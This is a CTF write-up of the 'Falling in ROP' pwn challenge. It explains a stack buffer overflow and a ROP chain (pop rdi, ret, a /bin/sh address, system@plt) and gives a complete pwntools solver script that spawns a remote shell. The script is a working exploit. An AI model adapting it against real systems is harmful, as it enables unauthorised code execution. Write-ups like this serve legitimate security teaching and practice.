






# Falling In ROP

## Overview

Points: 294

Category: Pwn

## Introduction
The "Falling in ROP" challenge from the Space Heroes CTF called for participants to exploit a binary to spawn a shell, thereby allowing them to capture a flag stored on the
server. The task necessitated the use of a Return-Oriented Programming (ROP) chain to bypass modern security mechanisms.

## Tools and Technologies Used
* pwntools: A Python-based CTF framework for crafting exploits.
* ROPgadget: This tool lets us search binaries for useful ROP gadgets.
* ELF: The binary format analyzed for vulnerabilities and exploitation.

## The Binary and Its Security
The provided binary "falling.bin" was scrutinized with the *checksec* feature of *pwntools*, revealing it was susceptible to a buffer overflow attack—a conclusion drawn from the
requirement to overwrite the return address with a crafted ROP chain.  
**Arch:**     amd64-64-little  
**RELRO:**    Partial RELRO  
**Stack:**    No canary found  
**NX:**       NX enabled  
**PIE:**      No PIE (0x400000)  

### Exploit Development
```.py
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)
```
Here, *pwntools* is configured with the target binary, enabling analysis and preparation for the exploit. The *checksec* is invoked to examine the binary's defenses.  

### Establishing a Remote Connection
```.py
fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")
```
Initiates a secure SSL connection to the remote challenge server, essential for sending our exploit.

### Calculating the Offset

```.py
offset = 88
```
Determines the number of bytes to fill the buffer before the return address on the stack, which is crucial for the overflow attack.  

### Building the ROP Chain
***ROP Gadget***
```
pop rdi
ret
```
  
***"/bin/sh" in binary data***  
  
```.py
rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135
```

1. ROP(chal) initiates the ROP chain builder for the given binary.
2. pop_rdi finds a gadget that will set up the rdi register, which is the first argument for the system call.
3. ret finds a gadget that can be used for stack alignment, ensuring our chain executes smoothly.
4. binsh is the hardcoded address of the string /bin/sh in the binary, which is necessary to spawn a shell.
  
### Receiving the Initial Prompt

```.py
fall_rop.recvuntil('Tell me who you are: ')
```
The script waits for the challenge prompt before sending the exploit payload, ensuring
that the exploit is synchronized with the program's state.  

### Crafting and Sending the Payload  
***System in binary***  
  
```.py
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)
```

### Constructs the payload using flat to concatenate:
1. A sequence of 'A's to fill the buffer up to the return address.
2. The ret gadget for stack alignment.
3. The pop rdi and binsh to set up our argument for the system call.
4. The address of system from the PLT to execute the call.

### Engaging Interactive Mode
fall_rop.interactive()
After sending the payload, this line provides interactive access to the shell spawned by
the exploit, allowing the participant to manually execute commands on the target
system.  

### Capturing the Flag
By executing the script, the participant successfully overflowed the buffer and executed
the ROP chain, resulting in a shell. Through this shell, the flag was retrieved with the
command cat flag.txt, revealing the contents:  
  
  
  
***shctf{ha3_mu$t_n3v3r_w1n_6184}***

## Solver Script  
```.py
from pwn import *
chal = context.binary = ELF('/Users/brussel/Downloads/falling.bin', checksec=True)

fall_rop = remote("spaceheroes-falling-in-rop.chals.io", 443, ssl=True, sni="spaceheroes-falling-in-rop.chals.io")

offset = 88

rop = ROP(chal)
pop_rdi = rop.find_gadget(['pop rdi'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = 0x402135

fall_rop.recvuntil('Tell me who you are: ')
payload = flat([b'A' * offset, ret, pop_rdi, binsh, chal.plt['system']])
fall_rop.send(payload)

fall_rop.interactive()
```


```shctf{t0_pwnf1nity_&_b3y0nd!}```


